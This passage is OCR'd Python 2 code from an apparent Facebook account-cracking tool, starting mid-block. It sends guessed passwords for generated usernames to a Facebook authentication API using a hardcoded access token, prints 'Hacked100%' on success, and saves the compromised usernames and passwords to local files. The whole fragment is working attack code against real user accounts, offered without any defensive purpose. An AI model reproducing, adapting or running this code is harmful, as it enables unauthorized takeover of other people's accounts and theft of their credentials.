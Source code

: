  				                okb = open('save/successfull.txt', 'a')

 				                okb.write(k+c+user+'-•◈•-'+pass3+'\n')

 				                okb.close()

 				                oks.append(c+user+pass3)

 				            else:

 				                if 'www.facebook.com' in q['error_msg']:

 					                print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass3+'\n'

 					                cps = open('save/checkpoint.txt', 'a')

 					                cps.write(k+c+user+'-•◈•-'+pass3+'\n')

 					                cps.close()

 					                cpb.append(c+user+pass3)

                                                else:

 				                    pass4="banglades"

 				                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

 				                    q = json.load(data)

 				                    if 'access_token' in q:

 				                        print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass4+'\n'+"\n"

 				                        okb = open('save/successfull.txt', 'a')

 				                        okb.write(k+c+user+'-•◈•-'+pass4+'\n')

 				                        okb.close()

 				                        oks.append(c+user+pass4)

 				                    else:

 				                        if 'www.facebook.com' in q['error_msg']:

 					                        print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass4+'\n'

 					                        cps = open('save/checkpoint.txt', 'a')

 					                        cps.write(k+c+user+'-•◈•-'+pass4+'\n')

 					                        cps.close()

 					                        cpb.append(c+user+pass4)

															

		except:

			pass

		

